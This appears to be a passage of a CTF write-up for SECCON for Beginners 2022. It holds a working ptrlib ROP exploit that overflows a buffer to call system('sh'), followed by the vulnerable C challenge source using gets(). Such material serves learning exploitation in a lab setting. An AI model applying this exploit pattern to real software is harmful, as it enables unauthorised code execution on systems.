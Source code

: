 ```python
import ptrlib as ptr


def unwrap(x):
    if x is None:
        exit(1)
    else:
        return x


elf = ptr.ELF("./chall")
io = ptr.Process(elf.filepath)

payload = b"A" * 24
payload += ptr.p64(next(elf.gadget("pop rdi; ret")))
payload += ptr.p64(next(elf.find(b"sh\x00")))
payload += ptr.p64(0x00000000004011E5)  # help+15 ie. system()

ptr.logger.info(f"payload length: {len(payload)}")
if len(payload) > 48:
    ptr.logger.error("payload length is too long!")
    exit()

io.sendline(payload)
io.recvuntil(b"finish")
io.recvuntil(b"finish")
io.sh()
```
# 5/9 SECCON for Beginners 2022 Snowdrop
It was a typical ROP problem.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUFF_SIZE 0x10

void show_stack(void *);

int main() {
    char buf[BUFF_SIZE] = {0};
    show_stack(buf);
    puts("You can earn points by submitting the contents of flag.txt");
    puts("Did you understand?") ;
    gets(buf);
    puts("bye!");
    show_stack(buf);
}

void show_stack(void *ptr) {
    puts("stack dump...");
    printf("\n%-8s|%-20s\n", "[Index]", "[Value]");
    puts("========+===================");
    for (int i = 0; i < 8; i++) {
        unsigned long *p = &((unsigned long*)ptr)[i];
        printf(" %06d | 0x%016lx ", i, *p);
        if (p == ptr)
            printf(" <- buf");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE))
            printf(" <- saved rbp");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE + 0x8))
            printf(" <- saved ret addr");
```